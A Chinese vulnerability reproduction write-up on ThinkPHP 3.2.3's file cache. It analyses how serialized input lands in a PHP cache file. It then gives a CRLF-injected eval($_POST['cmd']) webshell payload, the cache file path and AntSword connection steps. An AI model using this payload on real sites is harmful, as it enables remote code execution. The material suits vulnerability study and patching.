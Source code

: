 ```yaml
---
title: Thinkphp 3.2.3 缓存漏洞
id: zhfly3146
---
```


# Thinkphp 3.2.3 缓存漏洞

## 一、漏洞简介

## 二、漏洞影响

Thinkphp 3.2.3

## 三、复现过程

### 漏洞分析

*   直接跟进到`/Library/Think/Cache/File.class.php`文件，看到set方法：

    ```
    /**
         * 写入缓存
         * @access public
         * @param string $name 缓存变量名
         * @param mixed $value  存储数据
         * @param int $expire  有效时间 0为永久
         * @return boolean
         */
        public function set($name,$value,$expire=null) {
            N('cache_write',1);
            if(is_null($expire)) {
                $expire =  $this->options['expire'];
            }
            $filename   =   $this->filename($name);
            $data   =   serialize($value);
            if( C('DATA_CACHE_COMPRESS') && function_exists('gzcompress')) {
                //数据压缩
                $data   =   gzcompress($data,3);
            }
            if(C('DATA_CACHE_CHECK')) {//开启数据校验
                $check  =  md5($data);
            }else {
                $check  =  '';
            }
            $data    = "<?php\n//".sprintf('%012d',$expire).$check.$data."\n?>";
            //data参数经过序列化，直接被写到文件内。

    ```
     $result  =   file_put_contents($filename,$data);
        if($result) {
            if($this-&gt;options['length']&gt;0) {
                // 记录缓存队列
                $this-&gt;queue($name);
            }
            clearstatcache();
            return true;
        }else {
            return false;
        }
    } 
    ``` 
    ```

*   写一个调用缓存函数的的方法，运行一下。看看写进去什么

    ```
    <?php
    namespace Home\Controller;
    use Think\Controller;
    class IndexController extends Controller {

    ```
    public function index(){
        $a=I('post.a3');
        S('name',$a);
    } 
    ``` `}` 
    ```

*   在set方法下断点，访问 `http://www.0-sec.org/index.php/Home/Index/index.html` ，post数据：`a3=aaaa`

![image](../img/f78275199bdebad36493f8c875ace51e.png)

可以看到$data参数经过序列化，直接写入php后缀的文件。F9运行可以看到，在`Application/Runtime/Temp/`文件夹下生成了php文件。

![image](../img/30559eee1004e726bb6302e597e9e0d6.png)

*   写入到文件被行注释了。

*   `$data`参数未过滤`%0d%0a`可以用换行来绕过行注释，尝试post数据：

    `a3=%0d%0aeval($_POST['cmd']);%0d%0a//`

![image](../img/7586a11d31704ec10a40de8c4b88c9c5.png)

*   之后用蚁剑连接成功

![image](../img/c103aa5f4721cd7989b5b23f3b56a5fb.png)

### 总结

### Thinkphp3.2.3

1.  漏洞文件位置(一般审计得出)

    `http://www.0-sec.org/index.php/Home/Index/get?id=%0d%0aeval($_POST['cmd']);%0d%0a//`

2.  缓存文件为缓存名的md5值，这里采用md5（name）=b068931cc450442b63f5b3d276ea4297

    `http://www.0-sec.org/Application/Runtime/Temp/b068931cc450442b63f5b3d276ea4297.php`

3.  之后蚁剑连接。

## 参考链接

> [https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/](https://h3art3ars.github.io/2019/12/16/Thinkphp3-2-3-5-0-10%E7%BC%93%E5%AD%98%E6%BC%8F%E6%B4%9E/)
